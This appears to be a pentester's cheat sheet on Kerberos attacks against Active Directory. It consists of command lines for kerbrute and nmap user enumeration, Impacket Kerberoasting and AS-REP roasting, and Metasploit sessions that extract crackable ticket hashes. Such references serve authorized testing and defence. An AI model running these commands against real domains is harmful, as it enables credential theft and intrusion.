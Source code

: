 # Kerberos

## 01 - Manual

### 1.1 - Usage

#### 1.1.1 - Enumerate Users

- **Enumerate users against the active directory**

`$ ./kerbrute userenum --dc <IP> -d <domain_name> users.txt -t 64`

#### 1.1.2 - Kerberoast

^e70af7

- **Request a Kerberos 5 TGS-REP etype 23 hash from an SPN user account**

`$ GetUserSPNs -request -dc-ip <IP> <domain_name>/<username>:<password>`

#### 1.1.3 - ASREPRoast

^7e8f5e

- **Request a Kerberos 5, etype 23, AS-REP hash from an NP user account**

`$ GetNPUsers -request -dc-ip <IP> <domain_name>/<username>:<password>`

`$ GetNPUsers -request -dc-ip <IP> <domain_name> -usersfile users.txt`

## 02 - Nmap

`$ nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm="<domain_name>",userdb=<usernames.txt> <IP>`

## 03 - Metasploit

### 3.1 - Enumerate Users

```
msf > use auxiliary/gather/kerberos_enumusers

msf auxiliary(gather/kerberos_enumusers) > options

Module options (auxiliary/gather/kerberos_enumusers):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN                      yes       The Domain Eg: demo.local
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      88               yes       The target port
   Timeout    10               yes       The TCP timeout to establish connection and read data
   USER_FILE                   yes       Files containing usernames, one per line

msf auxiliary(gather/kerberos_enumusers) > set domain <domain_name>

msf auxiliary(gather/kerberos_enumusers) > set rhosts <IP>

msf auxiliary(gather/kerberos_enumusers) > set user_file usernames.txt

msf auxiliary(gather/kerberos_enumusers) > exploit -j
```

### 3.2 Kerberoast

```
msf > use auxiliary/gather/get_user_spns

msf auxiliary(gather/get_user_spns) > options

Module options (auxiliary/gather/get_user_spns):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   THREADS  1                yes       The number of concurrent threads (max one per host)
   domain                    yes       The target Active Directory domain
   pass                      yes       Password for the domain user account
   user                      yes       Username for a domain account

msf auxiliary(gather/get_user_spns) > set rhosts <IP>

msf auxiliary(gather/get_user_spns) > set threads 4

msf auxiliary(gather/get_user_spns) > set domain <domain_name>

msf auxiliary(gather/get_user_spns) > set user <username>

msf auxiliary(gather/get_user_spns) > set pass <password>

msf auxiliary(gather/get_user_spns) > exploit
```

## References

- [Impacket](https://github.com/fortra/impacket)

- [Kerbrute](https://github.com/ropnop/kerbrute)

- [Kerberoasting Common Tools](https://blog.certcube.com/kerberoasting-common-tools/)

- [Pentesting Kerberos 88](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)
